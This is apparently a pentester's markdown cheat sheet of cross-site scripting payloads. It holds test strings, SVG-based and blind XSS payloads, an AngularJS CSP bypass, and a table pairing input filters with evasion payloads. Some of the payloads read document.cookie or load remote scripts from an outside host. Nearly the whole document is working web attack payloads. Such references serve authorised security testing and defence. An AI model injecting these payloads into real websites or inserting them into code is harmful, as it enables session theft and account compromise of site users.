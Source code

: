 # XSS Stuff

## Test Strings
```
<script>onerror=alert;throw 1</script>
<svg onload=alert(1) 
<img src=x onerror=alert('XSS');>
<img/src/onerror=prompt(8)>
<img/src/onerror=alert(document.cookie;)>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```
Without space:   
```
<svg/onload=confirm()>
<iframe/src=javascript:alert(1)>
```

Without slash (/):   
```
<svg onload=confirm()>
<img src=x onerror=confirm()>
```

SVG based XSS:   
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert("SVG XSS");
</script>
</svg>

```
SVG based blind XSS:   
```
<svg version="1.1" baseProfile="full" xmlns="http://w3.org/2000/svg" xmlns:xlink="http://w3.org/1999/xlink" >
  <script type="text/javascript"  xlink:href="URL"></script>
</svg>
```

## Using Angular.js to bypass CSP
If you can find a place in a web page where e.g.  `{{7*7}}` gets displayed on client-side as '49' (if its returned as 49, then its server-side template injection!), you can try to bypass CSP with:   
`{{$on.constructor('alert(1)')()}}`   
More here: https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti
 
## XSS Bypasses

|   Filter   | Bypass    |
| --- | --- |
| Nothing | &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt;, no quotes | >&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt; with quotes | ">&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection within a &lt;script&gt; block | `asdf";alert(1);<!--` |
| Injection within a &lt;textarea&gt; | &lt;/textarea&gt;&lt;script&gt;alert(1)&lt;/script&gt; |
| DOM-XSS, no filtering | &lt;img src=x onerror=alert(1)&gt; |
| Client-side filtering of some values | [Attack in URL directly or manipulate request via Burp: https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert(1)%3C/script%3E](https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert%281%29%3C/script%3E) |
| "&lt;" and "&gt;" are filtered | test" onmouseover="alert(1) |
| "script" is filtered, but only once | &lt;img src=x onerror=alert(1)&gt; OR &lt;scriscriptpt&gt;alert(1)&lt;/scriscriptpt&gt;  |
| most non-HTML5 onXYZ handlers are blocked | Any valid HTML5 onevent handler: &lt;input type=text oncontextmenu=alert(1)&gt;|
| all "onxyz" event handlers are filtered, "script" is filtered, but case sensitive | &lt;sCrIpT&gt;alert(1)&lt;/sCrIpT&gt; |
| "alert" is filtered | [&lt;script src=https://xss.rocks/xss.js&gt;](https://xss.rocks/xss.js) |
| "alert", "http://" and "https://" are filtered | &lt;script src=//xss.rocks/xss.js&gt; |
| Injection in a &lt;script&gt; block, but double quotes are escaped | Escape the escape character: `asdf\\";alert(1);<!--` |
| Injection in a &lt;script&gt; block, but "&lt;", "&gt;" and "alert" are filtered | ";\\u{61}lert(1);var i=" |
| Parentheses are filtered | &lt;script&gt;onerror=alert;throw 1&lt;/script&gt; |
| Injection inside "src" attribute of &lt;script&gt; tag, but all protocols "http://", "https://" and "//" are filtered. | data:text/javascript,alert(1) |
| all tags (e.g. &lt;.*&gt;) are filtered | Parameter pollution: [https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert(1)%3C/script%20&inject=%3E](https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert%281%29%3C/script%20&inject=%3E) |
| "script" and "onXYZ" event handlers are filtered, but knockout JS is available. | Knockout JS script gadget:  &lt;h2&gt;Hello, &lt;span data-bind="text: alert(1)"&gt;&lt;/span&gt;!&lt;/h2&gt; |
| Injection via file upload, nothing filtered | Upload HTML document (e.g. test.html): &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection via file upload, but .html extension and other important ones are filtered. | Upload HTML document, but with .htm extension:  &lt;script&gt;alert(1)&lt;/script&gt; |
| MIMETypes are filtered, only images are allowed. | Use an SVG (below is a fancy one): <br>`<?xml version="1.0" standalone="no"?>`<br>`<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">`<br>`<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">`<br>`<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />`<br>`<script type="text/javascript">`<br>`alert("SVG XSS");`<br>`</script>`<br>`</svg>` |
| Injection inside eval, but ">", "<", "=", "alert", "script", "src" and protocols are all filtered. | String.fromCharCode(97,108,101,114,116,40,49,41) |
| csp blocks most things, but allows angularJS to be loaded | <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.7.8/angular.js"></script\> &lt;input type=text ng-app id=p ng-focus=$event.view.alert(1)&gt; |
